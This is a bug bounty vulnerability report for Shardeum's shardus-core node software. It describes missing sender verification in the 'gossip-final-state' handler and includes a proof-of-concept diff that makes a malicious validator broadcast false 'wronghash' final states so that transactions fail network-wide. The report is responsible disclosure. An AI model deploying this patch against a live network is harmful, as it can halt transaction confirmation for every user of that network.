 
# Bypassing sender verification in 'gossip-final-state' can cause transaction to fail.

Submitted on Tue Aug 13 2024 14:13:43 GMT-0400 (Atlantic Standard Time) by @doxtopzhivago for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34481

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
The gossip-final-state gossip handler lacks incoming message verification. Consequently, this vulnerability allows various attacks, such as forcing transactions to fail or manipulating account balances after a transaction is executed.


## Vulnerability Details
During the execution of a transaction validators in the execution group exchange final account data with other nodes in the transaction group. The new consensus protocol introduces restrictions on sender, receiver and data. However, these restrictions are absent in the gossip-final-state handler, allowing control for attacker to the transaction's final state.

When a transaction is received by a malicious validator, it can send a gossip-final-state message to the validators in the transaction group with incorrect final account state information after a brief delay. This misinformation can include an incorrect hash or an incorrect final balance. If the hash is incorrect the transaction will fail since it doesn't  match the hash in the vote, triggering the repair process on the nodes from the non-execution group.

## Impact Details
This vulnerability impacts any transaction executed in the network, as there is no restriction preventing an attacker from being a part of either the transaction or execution group, and gives full control over the transaction failure status.

## References
https://github.com/shardeum/shardus-core/blob/72fba67d3a551f21368c8b0fe94f951c8f5cc4f8/src/state-manager/TransactionQueue.ts#L777

        
## Proof of concept
## Proof of Concept
A patch should be applied to the malicious validator in the Shardeum-core repository. I have created a POC that allows a malicious node to fail all transactions it knows about on non-execution group nodes. Notably, the node doesn't need to be part of the transaction or execution group. This will force the repair process on these nodes.

To test the POC:

    Create a local network with at least 2 shards (shard size 10, total nodes 20).
    If the POC is not working, try increasing the timeout from 2 seconds to 3-5 seconds.

```
diff --git a/src/shardus/index.ts b/src/shardus/index.ts
index 057dea8a..76ae5266 100644
--- a/src/shardus/index.ts
+++ b/src/shardus/index.ts
@@ -85,6 +85,8 @@ import SocketIO from 'socket.io'
 import { nodeListFromStates, queueFinishedSyncingRequest } from '../p2p/Join'
 import * as NodeList from '../p2p/NodeList'
 import { P2P } from '@shardus/types'
+import { WrappedResponses,
+} from '../state-manager/state-manager-types'
 
 
 // the following can be removed now since we are not using the old p2p code
@@ -748,6 +750,35 @@ class Shardus extends EventEmitter {
       )
       throw new Error(e)
     })
+    Self.emitter.on('beginTransaction', async (txId) => {
+      console.log('received new transaction:', txId)
+      setTimeout(async () => {
+        console.log('fixing new transaction:', txId)        
+        try {
+          let queueEntry = this.stateManager.transactionQueue.getQueueEntrySafe(txId)
+          const stateList = []
+          for (const key of queueEntry.uniqueKeys) {
+            let data = {accountId: key, stateId: 'wronghash'}
+            stateList.push(data)        
+          }
+          if (stateList.length > 0) {
+            const payload = {txid: queueEntry.acceptedTx.txId, stateList}
+            await Comms.sendGossip(
+              'gossip-final-state',
+              payload,
+              null,
+              null,
+              queueEntry.transactionGroup,
+              false,
+              4,
+              queueEntry.acceptedTx.txId
+            )
+          }
+        } catch (error) {
+          console.log('Gossip error:', error);
+        }        
+      }, 2000);      
+    })
     Self.emitter.on('removed', async () => {
       // Omar - Why are we trying to call the functions in modules directly before exiting.
       //        The modules have already registered shutdown functions with the exitHandler.
diff --git a/src/state-manager/TransactionQueue.ts b/src/state-manager/TransactionQueue.ts
index d921d1f9..616caef7 100644
--- a/src/state-manager/TransactionQueue.ts
+++ b/src/state-manager/TransactionQueue.ts
@@ -5550,6 +5550,7 @@ class TransactionQueue {
           //insert this tx into the main queue
           this._transactionQueue.splice(index + 1, 0, txQueueEntry)
           this._transactionQueueByID.set(txQueueEntry.acceptedTx.txId, txQueueEntry)
+          Self.emitter.emit('beginTransaction', txId)
 
           /* prettier-ignore */ if (logFlags.seqdiagram) this.seqLogger.info(`0x53455105 ${shardusGetTime()} tx:${txQueueEntry.acceptedTx.txId} Note over ${NodeList.activeIdToPartition.get(Self.id)}: aging`)
 
@@ -7039,6 +7040,7 @@ class TransactionQueue {
                 /* eslint-enable security/detect-object-injection */
 
                 if (failed === true) {
+                  console.log('transaction repair initiated: ', queueEntry.acceptedTx.txId)
                   nestedCountersInstance.countEvent('stateManager', 'shrd_awaitFinalData failed')
                   this.stateManager.getTxRepair().repairToMatchReceipt(queueEntry)
                   this.updateTxState(queueEntry, 'await repair')
                                                                   
```